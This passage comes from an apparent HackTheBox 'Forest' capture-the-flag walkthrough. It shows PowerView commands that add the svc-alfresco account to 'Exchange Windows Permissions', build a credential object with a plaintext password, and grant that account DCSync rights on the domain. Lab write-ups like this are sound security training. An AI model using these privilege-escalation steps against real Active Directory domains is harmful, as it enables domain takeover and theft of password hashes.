 ```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco'
```

Let's verify that our user has been added to the group:

```powershell
Get-DomainGroupMember -Identity 'Exchange Windows Permissions'
```

![added-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/added-19.png)

Nice! 


Now that we are a part of the `Exchange Windows Permissions` group, we can grant our user the `DCSync` permission. To do this we first need to create a `PSCredential` object, this is necessary becasue even though we added ourselfes to the `Exchange Windows Permissions` group, this change isn't reflected in our current PowerShell session. Therefore we need to pass in our credentials (via a PSCredential object) when we give ourselfes the `DCSync` right.


To create the `PSCredential` object we can run the following:

```powershell
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-aflresco', $SecPassword)
```

Now we can add the `DCSync` rights to our user `svc-alfresco` using:

```powershell
Add-DomainObjectACL -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity "svc-alfresco" -Rights DCSync
```

![dcsync-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/dcsync-20.png)
